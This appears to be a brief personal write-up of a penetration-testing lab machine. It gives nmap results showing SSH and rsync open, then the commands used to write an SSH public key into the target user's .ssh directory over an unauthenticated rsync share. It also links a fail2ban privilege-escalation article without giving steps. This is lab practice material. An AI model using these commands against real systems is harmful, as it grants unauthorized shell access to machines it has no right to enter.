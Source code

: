 _____

> [!info]
> IP=192.168.229.126


# Nmap

```python
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
873/tcp open  rsync   (protocol version 31)
```

## 873 - rsync

https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync

```txt
fox
fox home
```



```bash
ssh-keygen -f testkey
cat testkey.pub > authorized_keys

rsync -av /home/kali/Documents/PGP/fail/test_shared/.ssh rsync://fox@$IP/fox/
```

https://exploit-notes.hdks.org/exploit/network/rsync-pentesting/

# PrivEsc

## fail2ban
https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49


